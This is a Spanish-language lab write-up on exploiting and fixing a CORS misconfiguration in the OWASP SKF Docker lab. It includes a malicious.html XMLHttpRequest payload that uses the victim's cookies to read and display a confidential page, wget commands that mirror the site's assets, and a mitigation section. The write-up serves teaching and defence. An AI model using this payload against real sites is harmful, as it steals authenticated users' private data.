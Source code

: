 ```yaml
---
title: "[Lab] Cross-origin resource sharing (CORS)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, cors]
---
```



# Cross-origin resource sharing (CORS)
    

### Más info:

- Links
    
    PortSwigger - (”[https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)”)
    
    developer - (”[https://developer.mozilla.org/es/docs/Glossary/Preflight_request](https://developer.mozilla.org/es/docs/Glossary/Preflight_request)”)
    

## Same-Origin Policy (SOP)

Por defecto, el navegador impone una política del "mismo origen" (same-origin policy), que restringe las solicitudes de recursos a un dominio específico. Esto significa que las páginas web solo pueden realizar solicitudes de recursos (como imágenes, scripts, estilos, etc.) al mismo dominio desde el cual se cargó la página pero no se pueden realizar solicitudes de recursos del dominio desde otro dominio diferente.

Por ejemplo, una web que es vulnerable a XSS, el atacante ingresa unas etiquetas <script> que contienen un atributo “src” que hace que el usuario que ejecute el código, cargue un dominio diferente (del atacante) en el que se definió un recurso JavaScript que hace que tramite una solicitud al sitio web vulnerable para que, por ejemplo, copie todo el código fuente de ese sitio y lo envié al atacante y en esa situación, es en esa situación en la que no será posible la acción debido a que son dominios diferentes, es decir, el dominio del atacante no puede traerse recursos de otro dominio por la política del “same-origin policy” o SOP.

## ¿Qué es CORS?

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled.png)

Sin embargo, en algunos casos, es necesario permitir que las páginas web realicen solicitudes a recursos en otros dominios. Aquí es donde CORS entra en juego. Permite que un servidor especifique qué dominios (o orígenes) tienen permiso para acceder a los recursos que ofrece. El servidor incluye encabezados de respuesta especiales en sus respuestas HTTP para indicar si los recursos pueden ser compartidos con el origen que realizó la solicitud.

Cuando una página web realiza una solicitud a otro dominio, el navegador realiza una "solicitud previa" (preflight request) enviando una solicitud HTTP OPTIONS al servidor para verificar si la solicitud está permitida. El servidor responde con encabezados que especifican los orígenes permitidos, los métodos HTTP permitidos, los encabezados permitidos, etc. Si el servidor aprueba la solicitud previa, el navegador realizará la solicitud real al recurso deseado.

Si el servidor no permite el acceso desde el origen que realiza la solicitud, el navegador bloqueará la respuesta y la página web no podrá acceder al recurso. Esto ayuda a prevenir ataques de tipo Cross-Site Scripting (XSS) y Cross-Site Request Forgery (CSRF).

## Instalación de lab

```bash
docker pull blabla1337/owasp-skf-lab:cors
docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

La página web se ve de esta forma y las credenciales del usuario administrador son: “usuario: admin” y “contraseña: admin”.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 1.png)

El objetivo para este lab será crear un sitio web malicioso en el que habrá un recurso javaScript que cuando el usuario admin lo cargue, se copiará todo el código HTML del sitio web vulnerable en el que está logueado este usuario para mostrarlo en el sitio web del atacante. Esto será posible debido a la mala configuración del CORS en el sitio web ya que se está permitiendo cualquier origen, es decir, permite que cualquier dominio externo cargue recursos del propio sitio web.

Para demostrar la mala configuración de CORS, se interceptará una solicitud al sitio web con Burpsuite.

Al enviar la solicitud, se puede ver en los encabezados de la respuesta el “**`Access-Control-Allow-Credentials: true`**” y “**`Access-Control-Allow-Origin: *`**”, el primero permite el envío de credenciales como cookies en solicitudes HTTP y en el segundo se indican los dominios externos que se les permite hacer solicitudes a recursos del propio sitio web, en este caso se permite a cualquier dominio y esto es un problema ya que la idea es que se especifiquen solo los dominios que requieren de este permiso, no cualquiera.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 2.png)

El atacante ahora podría añadir un campo “Origin” en la cabecera de la solicitud para que el dominio que ingrese tenga permitido cargar recursos del sitio web vulnerable. Por ejemplo, se agrega un sitio web que el atacante controlará.

También es importante que el envío de credenciales esté en true ya que permite que la víctima arrastre su cookie de sesión en el caso que se quiera extraer información de un recurso del sitio web el cual se requiera una previa autenticación.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 3.png)

Ahora se creará el archivo malicioso que el usuario víctima cargará, en este caso se llamará “malicious.html” y servirá para que cuando el usuario víctima lo cargue, haga una petición al sitio web vulnerable y copie todo el código HTML para que lo replique en el sitio web del atacante:

- Código
    
    ```bash
    <script>
    	var req = new XMLHttpRequest();
    	req.onload = reqListener;
    	req.open('GET', 'http://localhost:5000/confidential', true);
    	req.withCredentials = true;
    	req.send();
    
    	function reqListener() {
    		document.getElementById("stolenInfo").innerHTML = req.responseText;
    	}
    </script>
    
    <br>
    <center><h1>Has sido hackeado y esta es la informaci&oacute;n que te he robado</h1></center>
    
    <p id="stolenInfo"></p>
    ```
    

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 4.png)

- Explicación de código
    - **`req.onload = reqListener;`** → Esto indica qué pasará cuando el usuario cargue la página web y “reqListener” es la función en donde se orquestará esta función.
    - **`document.getElementById("info1")` →**  Es una llamada a la función **`getElementById`** del objeto **`document`**. Busca un elemento HTML en el documento con el atributo **`id`** igual a "info1". Esto devuelve una referencia al elemento encontrado.
    - **`.innerHTML`** → Es una propiedad del objeto del elemento HTML. Permite obtener o establecer el contenido HTML dentro del elemento.
    - **`req.responseText`** → Es una propiedad que contiene la respuesta de la solicitud XHR. **`req`** se asume como el objeto XHR previamente configurado y utilizado para hacer la solicitud. La propiedad **`responseText`** contiene los datos de respuesta devueltos por el servidor.

Ahora se crea un servidor HTTP en el directorio de este recurso y se simulará que el usuario admin, estando autenticado en el sitio web vulnerable, carga este recurso malicioso:

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 5.png)

Como se puede ver, se hizo una replica del contenido HTML del sitio web en el sitio del atacante aunque solo se ve la estructura HTML pero se podrían descargar los recursos extra del sitio web para que se vea igual al original.

El atacante al compartir su sitio web con PHP, se pueden ver los logs generados por la víctima, entre ellos hay solicitudes a recursos no existentes en la máquina del atacante, estos recursos corresponden a los estilos de la página web por lo que se pueden crear las mismas carpetas en la máquina local y descargar los recursos de la página original:

```bash
php -S 0.0.0.0:80
```

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 6.png)

```bash
# Creación de directorios
mkdir -p static/css/
mkdir -p static/img/

# Descarga de recuros de página web original
cd static/css/
wget http://localhost:5000/static/css/Normalize.css
wget http://localhost:5000/static/css/datepicker3.css
wget http://localhost:5000/static/css/bootstrap-table.css
wget http://localhost:5000/static/css/styles.css
cd static/img
wget http://localhost:5000/static/img/badge.svg
```

Con esto descargado ahora la página web debería verse de esta manera:

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 7.png)

## ¿Cómo se vería esta petición por Burpsuite?

Al interceptar esta petición de la víctima al servidor web del atacante, se ven las siguientes solicitudes:

Primero hace una petición por GET al archivo “malicious.html“:

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 8.png)

Luego este archivo malicioso hará que la víctima tramite una petición al recurso “confidential” del sitio web vulnerable para traerse todo el código HTML de esa web a la web del atacante, en esta petición se puede ver que automáticamente se establece el campo “Origin” con el dominio de la web atacante y como la web es vulnerable, en la respuesta se ve que establece este dominio en el campo “Access-Control-Allow-Origin” permitiendo a este dominio cargar recursos del sitio web.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 9.png)

## ¿Cómo mitigar esta vulnerabilidad?

En este caso, se cambiará la configuración del CORS del sitio web de este lab, para esto, hay que entrar a la consola del contenedor:

```bash
docker exec -it <IDContenedor> bash
```

Y en el directorio actual “home/apps/CORS” habrá un archivo “CORS.py” el cual contiene la configuración del CORS por lo que este será el archivo a editar.

En este archivo, al final del todo, se cambiarán los siguientes valores para especificar los dominios externos autorizados, por ejemplo, se ingresará el dominio “http://example.com” y se cambiará “Access-Control-Allow-Credentials” a “Access-Control-Allow-Origin”.

![Archivo original y vulnerable](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 10.png)

Archivo original y vulnerable

![Archivo modificado](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 11.png)

Archivo modificado

Ahora si la víctima vuelve a cargar la página del atacante, el campo “Access-Control-Allow-Origin” no será modificado y devolverá como respuesta los domonios autorizados de CORS, en este caso “http://example.com” ya que es el que está contemplado en la configuración del CORS.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 12.png)

La página web ya no se replica y en la consola se muestra un mensaje de error indicando el bloqueo por parte del CORS.

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 13.png)

![Untitled](../assets/OWASP-TOP-10/Insecure Direct Object Reference (IDORs)/Untitled 14.png)

## Otras fallas en la configuración CORS

### Regex mal implementada:

Es posible que los administradores configuren el CORS de forma que en los dominios autorizados ingresen algo como esto:

```bash
*.example.com
```

Esto quizá haciendo alusión a subdominios pero esto es un problema ya que es una regex mal implementada porque el punto contempla un caracter de forma que un atacante podría utilizar un nombre de dominio con una sola letra al inicio como “Gexample.com” y ser válido y autorizado para hacer solicitudes.

### Descubrir subdominios con el campo “Origin”

Hay veces que al hacer una solicitud al servidor con un campo “Origin” con un dominio establecido, el campo “Access-Control-Allow-Origin” no se muestra en la respuesta, esto puede deberse a que el dominio del campo “Origin” proporcionado no es válido de forma que solo se mostrará solo cuando el dominio es válido y esto puede ser una forma potencial para descubrir subdominios.

